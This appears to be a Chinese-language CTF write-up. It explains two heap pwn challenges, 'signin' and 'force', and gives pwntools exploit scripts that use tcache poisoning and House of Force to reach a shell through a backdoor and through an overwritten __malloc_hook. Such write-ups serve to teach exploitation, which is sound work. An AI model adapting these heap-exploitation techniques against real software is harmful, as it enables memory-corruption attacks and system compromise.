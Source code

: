 ```python
sla(':','1')
sla(':',str(0x60))
```

> 两道 something 似乎改编自 ACTF2020 的两道 SCP Foundation。

### signin

程序分配的块大小固定为 0x70，最多申请 9 个；`edit` 功能只能用一次，不过并没有检查 chunk 是否是 free 的；`delete` 检查了 chunk 是否为 free，并且释放之后将 chunk 对应的 `flag` 标记为 free，因此无法 double free，不过指针依然没有置 NULL。

此外还存在后门函数，先 `calloc(1,0x70)`，然后如果全局变量 `ptr` 不为空就能 getshell。题目环境为 Ubuntu 18，那么思路就是利用 tcache 机制。先填满 tcache，随后对 tcache 中第一个 chunk 投毒，即修改 `fd` 指向 `ptr` 上方的 fake chunk，然后申请出一块 tcache chunk，此时 fake chunk 就会进入 tcache 中。再申请一次即可 getshell。

```python
for i in range(8):
    add(i)
for i in range(8):
    free(i)

dbg()
edit(7,p64(0x4040c0-0x10))
add(8)
dbg()
sla('?','6')
dbg()
```

### force

程序没有对申请的大小进行检查，结合题目名可以想到 House of Force。先申请一个很大的 chunk 紧挨着 libc，可以泄露出 libc。这里的偏移是通过 gdb 调试得到的，将题目给出的地址和 `libc_base` 进行 `distance` 即可。随后修改 top chunk 大小同时泄露堆地址。这样 top chunk 地址也得到了。

接下来，我使用 `pwngdb` 工具，调试的时候先查看 `heapbase`，然后把这个地址作为参数传给 `force` 命令，即可得到 `nb=-48`，从而算出 `evil_size` 为 `malloc_hook-top-0x30`。申请一个 `evil_size` 大小的 chunk，然后再申请就能得到 `__malloc_hook` 附近的 chunk，由于 `one_gadget` 条件不满足，这里借用了 `realloc` 去覆盖 `__malloc_hook`。

```python
distance = 0x5b2010
base = add(0x20000)-distance
leak('base',base)

heap = add(0x10,'\x00'*0x18+p64(0xffffffffffffffff))-0x10
leak('heap',heap)
top = heap+0x20

malloc_hook = base+libc.sym['__malloc_hook']
one = base+0x4526a
realloc = base+libc.sym['realloc']

# force heapbase
evil = malloc_hook-top-0x30
add(evil)
payload = flat('a'*8,one,realloc+4)
add(len(payload),payload)

sla('puts\n','1')
sla('size\n',str(0x10))
```
